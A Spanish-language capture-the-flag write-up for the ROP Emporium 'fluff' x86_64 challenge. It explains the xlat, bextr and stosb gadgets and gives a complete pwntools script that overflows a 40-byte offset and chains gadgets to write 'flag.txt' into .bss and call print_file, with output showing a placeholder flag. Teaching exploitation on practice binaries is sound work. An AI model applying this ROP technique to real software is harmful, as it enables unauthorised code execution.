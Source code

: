 # 6. Fluff (x86\_64)

Este ejercicio es prácticamente igual que [write4](4.-write4-x86_64.md) pero con una diferencia. La diferencia es que no tenemos ningún rop que haga un `mov DWORD ptr` con lo cual no podemos guardar `flag.txt` en el `.bss`. Como hacemos entonces? pues si miramos las funciones del binario vamos a poder ver lo siguiente:

{% code fullWidth="false" %}
```c
0000000000400628 <questionableGadgets>:
  400628:	d7                   	xlat   BYTE PTR ds:[rbx]
  400629:	c3                   	ret
  40062a:	5a                   	pop    rdx
  40062b:	59                   	pop    rcx
  40062c:	48 81 c1 f2 3e 00 00 	add    rcx,0x3ef2
  400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
  400638:	c3                   	ret
  400639:	aa                   	stos   BYTE PTR es:[rdi],al
  40063a:	c3                   	ret
  40063b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```
{% endcode %}

Usando únicamente lo que hay en esta función podemos conseguir mandar al segmento de memoria `.bss` el string `flag.txt` de la siguiente manera:

Vamos a centrarnos en los 3 gadgets que nos van a hacer falta:

```c
400628:	d7                   	xlat   BYTE PTR ds:[rbx]
. . .
400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
. . .
400639:	aa                   	stos   BYTE PTR es:[rdi],al
```

Que es cada uno?

* `xlat`: Usa `AL` como índice usando como base `RBX` y guarda el resultado en `AL`, es decir: `AL = RBX[AL]`
* `stosb` escribe `AL` en `RDI` y luego incrementa `RDI`
* `bextr rbx, rcx, rdx`: Extrae una cantidad de bits de `RCX` a `RBX` usando `RDX` para indicar los bits y en que bits empieza.

Como lo usaríamos y en que orden? Este sería la manera en la que manipulariamos estos gadgets:

```c
1. Con bextr guardamos flag.txt en el rbp bit a bit
2. Con xlat y stosb pasamos flag.txt: RBX --> AL --> RDI
```

Vamos a necesitar como datos los siguientes:

{% code fullWidth="false" %}
```python
bss = exe.bss() # Primera dirección del BSS (asumimos que está vacío)
xlat = exe.symbols['questionableGadgets'] # Dirección a la función questionableGadgets
pop_rdx_rcx_add_bextr = 0x40062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr  rbx,rcx,rdx; ret
stos = 0x400639 # stos   BYTE PTR es:[rdi],al; ret
pop_rdi = 0x004006a3 # pop rdi; ret
print_file = exe.plt['print_file'] #Dirección de la función print_file en la  plt
al_antiguo = 0xb # Antes de llegar a nuestro rop el programa tiene esto en al. Se puede ver en GDB
blob = read(exe.path) # Con esto blob contiene todos los datos del binario y puede buscar caracteres en él.
flag = b'flag.txt'
```
{% endcode %}

Ahora que tenemos todos los datos podemos pasar al solve:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("fluff")
libc = ELF("libfluff.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    offset = 40  # hasta rip

    bss = exe.bss()
    xlat = exe.symbols['questionableGadgets']
    pop_rdx_rcx_add_bextr = 0x40062a
    stos = 0x400639
    pop_rdi = 0x004006a3
    print_file = exe.plt['print_file']

    al_antiguo = 0xb  # esto es lo que ya hay en al antes de llegar a nuestro rop
    blob = read(exe.path)
    flag = b'flag.txt'

    chain = b""

    for a, b in enumerate(flag):
        idx = blob.find(bytes([b]))
        assert idx != -1, log.failure(f"No hay ese char")
        
        # hay que restar lo que ya había en AL y el +0x3ef2 que mete el gadget
        rcx_val = exe.address + idx - al_antiguo - 0x3ef2

        chain += flat(
            pop_rdx_rcx_add_bextr,
            0x4000,         # rdx random grande para que copie todo
            rcx_val,        # rcx calculado
            xlat,           # mete el char en AL
            pop_rdi, bss + a,
            stos            # escribe el char en .bss
        )
        
        # ahora AL vale el último char que pillamos, hay que guardarlo para la siguiente vuelta
        al_antiguo = b

    # llamar a print_file con la dirección donde metimos flag.txt
    chain += flat(pop_rdi, bss, print_file)

    payload = flat(
        b"A" * offset,
        chain
    )

    io.sendlineafter(b'> ', payload)
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
